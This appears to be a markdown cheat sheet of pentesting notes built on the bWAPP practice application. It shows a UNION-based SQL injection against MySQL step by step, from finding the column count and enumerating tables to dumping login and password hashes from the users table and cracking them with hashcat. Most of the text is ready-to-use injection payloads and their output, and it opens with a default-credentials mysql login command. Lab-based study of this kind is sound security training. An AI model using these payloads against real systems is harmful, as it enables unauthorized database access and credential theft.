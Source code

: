 # default credentials connection:

mysql -u root -h ip 

# SQL injectoin

All examples are based on bWAPP (free pentesting practice tool) examples.

## UNION based sql injection

Test for SQLi vulnerability: '

errror says it's mySQL database

from PayloadAllThings

### MYSQL Comment
-- comment [Note the space after the double dash]
/* MYSQL Comment */
/*! MYSQL Special SQL */
/*!32302 10*/ Comment for MYSQL version 3.23.02

-- - to emphasize space

1. Get number of columns

```
1' order by 1; -- -- ok
1' order by 2; -- -- ok
...
1' order by 7; -- -- ok
1' order by 8; -- -- error -> 7 columns available
```
Other faster methods (if error messages are enabled):

```
' UNION SELECT 1,2,3,4,5,6,7; -- --	True

1' ORDER BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100; -- --

```

2. identify vulnerable columns

```
-' union all select 1,2,3,4,5,6,7; -- --

Title 	Release 	Character 	Genre 	IMDb
2 	3 	5 	4 	Link

#columns 2,3,4,5 are vulnerable
```

Get Database version:

```
-' union all select 1,@@version,3,4,5,6,7; -- -

#5.0.96-0ubuntu3 > 5 -> continue with table name enumeration

#for database name

-' union all select 1,database(),3,4,5,6,7; -- -

#we get bWAPP

#time for table name

-' union all select 1,group_concat(0x7c,table_name,0x7C),3,4,5,6,7 from information_schema.tables where table_schema=database(); -- -

#output: blog,heroes,movies,users,visitors

#get column names from users table

-' union all select 1,group_concat(0x7c,column_name,0x7C),3,4,5,6,7 from information_schema.columns where table_schema=database(); -- -

#output for column names: id,owner,entry,date,id,login,password,secret,id,title,release_year,genre,main_character,imdb,tickets_stock,id,login,password,email,secret,activation_code,activated,reset_code,admin,id,ip_address,user_agent,date

#columns of particular table 
#encode table name "users" as decimal using: http://www.unit-conversion.info/texttools/ascii/

-' union all select 1,group_concat(0x7c,column_name,0x7C),3,4,5,6,7 from information_schema.columns where table_name=char(117,115,101,114,115); -- -

#output of columns in "users": id,login,password,email,secret,activation_code,activated,reset_code,admin,uid,name,pass,mail,theme,signature,signature_format,created,access,login,status,timezone,language,picture,init,data

#lets get login and password 

-' union all select 1,group_concat(login,0x7C,password,0x7C,admin),3,4,5,6,7 from users; -- -

#output.
#A.I.M.|6885858486f31043e5839c735d99457f045affd0|1,bee|6885858486f31043e5839c735d99457f045affd0|1,ok|#7a85f4764bbd6daf1c3545efbbf0f279a6dc0beb|0
#obviously column with 1 indicates admin
#cracking with hashcat delivers:
#6885858486f31043e5839c735d99457f045affd0:bug
#7a85f4764bbd6daf1c3545efbbf0f279a6dc0beb:ok


```



















